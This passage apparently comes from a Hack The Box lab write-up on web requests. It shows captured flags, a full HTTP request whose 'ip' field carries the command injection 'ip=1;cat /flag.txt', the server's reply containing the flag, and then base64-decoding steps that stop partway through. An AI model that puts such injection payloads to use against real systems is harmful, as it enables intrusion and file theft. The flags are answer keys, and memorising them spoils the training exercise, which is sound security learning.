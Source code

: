 Results: HTB{1n73rc3p73d_1n_7h3_m1ddl3}

### Repeating Requests

**Try using request repeating to be able to quickly test commands. With that, try looking for the other flag.**

The request:

```
POST /ping HTTP/1.1
Host: 94.237.59.24:51204
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://94.237.59.24:51204
Connection: close
Referer: http://94.237.59.24:51204/
Upgrade-Insecure-Requests: 1

ip=1;cat /flag.txt
```

The response:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Sun, 20 Oct 2024 18:37:28 GMT
Connection: close
Content-Length: 283

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.034 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms
HTB{qu1ckly_r3p3471n6_r3qu3575}

```


Results: HTB{qu1ckly_r3p3471n6_r3qu3575}
 
### Encoding/Decoding

Question. 



```
# The provided file contains the text:
VTJ4U1VrNUZjRlZXVkVKTFZrWkdOVk5zVW10aFZYQlZWRmh3UzFaR2NITlRiRkphWld0d1ZWUllaRXRXUm10M1UyeFNUbVZGY0ZWWGJYaExWa1V3ZVZOc1VsZGlWWEJWVjIxNFMxWkZNVFJUYkZKaFlrVndWVmR0YUV0V1JUQjNVMnhTYTJGM1BUMD0=

# It is base64 text. You need to decode in base64 4 times until getting an url encoded. First:
cat encoded_flag.txt | base64 -d | tee encoded2.txt
# U2xSUk5FcFVWVEJLVkZGNVNsUmthVXBVVFhwS1ZGcHNTbFJaZWtwVVRYZEtWRmt3U2xSTmVFcFVXbXhLVkUweVNsUldiVXBVV214S1ZFMTRTbFJhYkVwVVdtaEtWRTB3U2xSa2F3PT0=

cat encoded2.txt | base64 -d | tee encoded3.txt
# SlRRNEpUVTBKVFF5SlRkaUpUTXpKVFpsSlRZekpUTXdKVFkwSlRNeEpUWmxKVE0ySlRWbUpUWmxKVE14SlRabEpUWmhKVE0wSlRkaw==

cat encoded3.txt | base64 -d | tee encoded4.txt
```